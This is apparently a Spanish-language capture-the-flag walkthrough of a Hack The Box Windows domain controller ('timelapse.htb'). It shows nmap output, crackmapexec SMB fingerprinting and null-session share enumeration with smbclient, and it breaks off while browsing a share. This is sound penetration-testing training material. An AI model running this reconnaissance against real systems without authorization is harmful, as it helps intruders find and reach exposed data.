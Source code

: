 ```bash
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49697/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m57s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-07-27T02:09:27
|_  start_date: N/A
```

## Enumeracion

- Vamos a ver primeramente ante que estamos. 

```bash
❯ crackmapexec smb 10.129.141.32
SMB         10.129.141.32   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
```

- Vamos agregar el dominio al `/etc/hosts`.

```bash
❯ echo "10.129.141.32 timelapse.htb dc01.timelapse.htb" | sudo tee -a /etc/host
10.129.141.32 timelapse.htb dc01.timelapse.htb
```

- Vamos a comenzar viendo los recursos compartidos por **SMB** para ver si podemos listar algunos empleando un **Null Session** por que de momento no contamos con credenciales.

```bash
❯ smbclient -L 10.129.141.32 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

- Vemos un archivo `winrm_backup.zip` vamos a traerlo a nuestra maquina de atacante.

```bash
❯ smbclient -N //10.129.141.32/Shares
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Oct 25 10:39:15 2021
  ..                                  D        0  Mon Oct 25 10:39:15 2021
  Dev                                 D        0  Mon Oct 25 14:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 10:48:42 2021

		6367231 blocks of size 4096. 1245724 blocks available
smb: \> cd Dev
smb: \Dev\> dir
  .                                   D        0  Mon Oct 25 14:40:06 2021
  ..                                  D        0  Mon Oct 25 14:40:06 2021
```